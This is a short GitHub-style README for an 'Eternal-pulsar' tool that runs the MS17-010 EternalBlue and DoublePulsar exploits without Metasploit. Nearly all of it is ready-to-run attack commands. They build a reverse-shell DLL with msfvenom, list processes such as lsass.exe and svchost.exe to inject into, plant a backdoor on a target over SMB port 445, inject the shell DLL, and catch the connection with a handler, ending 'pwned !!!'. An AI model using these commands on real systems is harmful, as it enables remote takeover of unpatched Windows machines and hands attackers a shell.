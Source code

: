 # Eternal-pulsar (ms17-010)

Eternalblue-Doublepulsar without Metasploit and Python <br> 
base on shadowbroker's exploit (fuzzbunch)
- you can run it on windows or linux (need wine)


### Create payload with msfveom (staged)

` msfvenom -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f dll >  shell.dll`

you can also use other payloads <b>windows/shell_reverse_tcp</b> (stageless), <b>windows/meterpreter/reverse_tcp</b>

### ProcessName list to inject
`lsass.exe (x64)` <br>
`wlms.exe  (x86) `<br>
`svchost.exe ` <br>
`explorer.exe `<br>
`spoolsv.exe `<br>

### EternalBlue & Doublepulsar  (--help )

[help.txt](https://github.com/sailay1996/eternal-pulsar/blob/master/help.txt)


### Backdoor Install with EternalBlue 

` Eternalblue-2.2.0.exe --TargetIp 10.10.10.10 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 - -GroomAllocations 12 --OutConfig 1.txt`


### Sending shellcode to inject DLL with Doublepulsar 

` Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 10.10.10.10 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll`


### multi/handler listening with msf

` msfconsole -q -r msfhandler.rc`

#### pwned !!!


#### [@404death](https://twitter.com/404death)
